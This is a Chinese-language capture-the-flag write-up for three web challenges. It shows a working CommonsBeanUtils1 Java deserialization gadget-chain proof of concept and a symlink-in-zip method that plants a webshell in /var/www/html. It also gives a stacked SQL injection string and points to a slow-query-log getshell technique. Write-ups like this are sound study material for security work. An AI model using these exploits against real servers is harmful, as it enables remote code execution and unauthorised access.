

# WebLog

访问发现是个文件下载，下载的是日志文件，目录穿越不太好传，尝试拿bp爆破一下日期来下载Log，发现了一个jar：


访问`?logname=cb-0.0.1-SNAPSHOT.jar`把jar包下载下来，发现存在一个反序列化的后门：

```java
    @ResponseBody
    @RequestMapping({"/bZdWASYu4nN3obRiLpqKCeS8erTZrdxx/parseUser"})
    public String getUser(String user) throws Exception {
        byte[] userBytes = Base64.getDecoder().decode(user.getBytes());
        ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(userBytes));
        User userObj = (User)in.readObject();
        return userObj.getUserNicename();
    }
```

看一下pom.xml，有个cb：

```xml
        <dependency>
            <groupId>commons-beanutils</groupId>
            <artifactId>commons-beanutils</artifactId>
            <version>1.8.2</version>
        </dependency>
```

直接反序列化打就行了，直接拿前几天 陇原战疫比赛的那个EasyJaba那题的POC，把链子的构造那部分改成cb的，然后直接打过去：

```java
package com.summer.cb1;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.util.Base64;
import java.util.Collections;
import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    public static void main(String[] args) throws Exception{
        new CommonsBeanUtils1().getShiroPayload();
    }
    public static void cb1() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
    }
    public byte[] getShiroPayload() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        //BeanComparator beanComparator = new BeanComparator("outputProperties", Collections.reverseOrder());

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);

        System.out.println(new String(Base64.getEncoder().encode(bytes)));
        //SerializeUtil.unserialize(bytes);
        return bytes;
    }

}

```


# zipzip

上传压缩包回显被传到了`/tmp/uploads`目录下面，尝试拿010工具构造在解压缩的时候可以目录穿越的压缩文件，但是没有成功。查了一下才想到可以利用软连接，但是要想办法的是rce，也就是其实还是得解压缩之后把马解压到web目录下面，这时候想到了软连接目录。

先创建一个指向`/var/www/html`的软链接：

```shell
root@VM-0-6-ubuntu:~# ln -s /var/www/html feng
```

然后再把它压缩，使用`-y`，这样在压缩的时候可以保存软链接：

```shell
root@VM-0-6-ubuntu:~# zip -y feng1.zip feng
```

在feng目录下面写个马，然后再把这个feng目录不带`-y`的压缩：

```shell
root@VM-0-6-ubuntu:~# ls -al feng
lrwxrwxrwx 1 root root 13 Nov 13 18:33 feng -> /var/www/html
root@VM-0-6-ubuntu:~# zip -r feng2.zip feng
  adding: feng/ (stored 0%)
  adding: feng/.feng.php (stored 0%)
```

这时候的feng2.zip是这样，feng是个正常的目录，目录下面有个马：


然后先上传feng1.zip，再上传feng2.zip，这时候首先应该那边有了`/tmp/uploads/feng`，这是个指向`/var/www/html`的软连接。然后再上传feng2.zip进行解压的时候，实际上应该是把.feng.php解压到`/tmp/uploads/feng`这个目录下，但这已经是一个软链接了，因此实际上应该这个马被移动到了web目录了。

然后rce拿flag即可：


# ezSQL

不记得是不是叫这个名字了，首先就是得能堆叠：

```
1);select 1,2,3,4;
```

主要的问题就是，主办方给了hint但是应该基本没人知道：



查一下就知道是慢查询getshell了，参考文章：

https://www.geek-share.com/detail/2796651553.html

照着打就行了，写到`helpyou2findflag.php`里面就行了。赛后把VPN关了然后密码不知道连不上去所以打不了了，让Jiang师傅按这个思路试了试确实打通了，所以这比赛放hint能不能群里通知一下啊呜呜呜。